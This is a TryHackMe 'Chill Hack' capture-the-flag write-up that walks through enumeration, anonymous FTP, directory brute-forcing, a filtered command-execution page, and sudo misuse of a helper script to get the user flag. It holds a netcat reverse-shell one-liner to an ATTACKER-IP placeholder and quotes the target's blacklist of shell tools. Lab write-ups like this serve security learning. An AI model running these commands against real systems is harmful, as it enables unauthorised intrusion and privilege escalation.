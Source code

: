 ```yaml
---
title : "TryHackMe: Chill Hack WriteUp - PART 1"
author : Seif-Allah
description : "TryHackMe: WriteUp for the Chill Hack room (Level: Medium)"
layout : post
category: CTF-WriteUp
tags : [THM,TryHackMe,WriteUp,Chill Hack,Medium,CTF]
image : /assets/images/writeups/thm/chillhack/chillhack.png
---
```

### Enumeration
Classic Nmap scan : 
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
```
First things first, I start enumerating the FTP port wishing that it accepts anonymous login:
```bash
ftp 10.10.146.220
Connected to 10.10.146.220.
220 (vsFTPd 3.0.3)
Name (10.10.146.220:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 03 04:33 .
drwxr-xr-x    2 0        115          4096 Oct 03 04:33 ..
-rw-r--r--    1 1001     1001           90 Oct 03 04:33 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (90 bytes).
226 Transfer complete.
90 bytes received in 0.00 secs (703.1249 kB/s)
```
As you can see,It accepts anonymous login, :WEEY: So I list all the files and it contains a *note.txt* file. 
I download it using the *get* command. 
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
Well, that sounds cool, we got a hint, there's some filtration out there for strings. (Hope that it's not a rabbit hole), and we got 2 usernames. (We can start a bruteforce attack using hydra on the ssh but not for now, we need some more enumeration).

Let's move on for the HTTP server:
![HTTP Server](/assets/images/writeups/thm/Chill hack/HTTP_server.png)
Nothing too fancy here, just some random theme running. 

So I ran *gobuster* for some directory searching.
After some minutes of directory bruteforcing here's the result : 
```bash
root@kali:~/Documents/thm/game_info# gobuster dir -u http://10.10.146.220/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 2>/dev/null 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.146.220/
[+] Threads:        200
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/18 07:29:47 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/secret (Status: 301)
```
Well, as it's in easy level, that was kinda expected.
There's a */secret* directory. 
Let's check it inside our browser : 
![/secret](/assets/images/writeups/thm/chillhack/secret_directory.png)
Hmm, a field expecting a command and an execute button, with a silly animation ! 
Let's execute an *ls* command and see what happens ? 
![/hacker](/assets/images/writeups/thm/chillhack/hacker.png)
So, there's some filtration for some commands like ls.
I tried *cat*, *python* and *nc* commands but they're all filtered. 
I tried to split the commands with a semicolon but nothing changed. 
So my final thought is that it filters some the string entered as an input.
My first idea is to try a reverse shell found in [highon coffee blog](https://highon.coffee/blog/reverse-shell-cheat-sheet/) : 
```
mkfifo /tmp/lol;nc ATTACKER-IP PORT 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```
![reverse](/assets/images/writeups/thm/chillhack/reverse.png)
Looking at the index.php file found in the /var/www/html/secret directory, I found that my guessing was true, there's a blacklist array which contains some commands that are gonna filtered later. 
```
$cmd = $_POST['command'];
$store = explode(" ",$cmd);
$blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
```
Let's spawn a tty shell and move on.
Looking at the home directory, I found that there's a directory called *apaar* (remember the hint ?).
After checking it, I found a local.txt file which I don't have permission to read and a .helpline.sh file which can be run as apaar (after checking *sudo -l*) 
```
User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```
Reading the code, it looks like it executes whatever we type and redirects the error the /dev/null, so I executed */bin/bash* to get a shell from the user *apaar* and run any command we want !
```
www-data@ubuntu:/home/apaar$ sudo -u apaar /home/apaar/.helpline.sh
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: seif
seif
Hello user! I am seif,  Please enter your message: /bin/bash
/bin/bash
ls
ls
local.txt
whoami
whoami
apaar
cat local.txt
cat local.txt
{USER-FLAG: REDACTED-REDACTED-REDACTED}
```
Bingo ! We got the first flag 
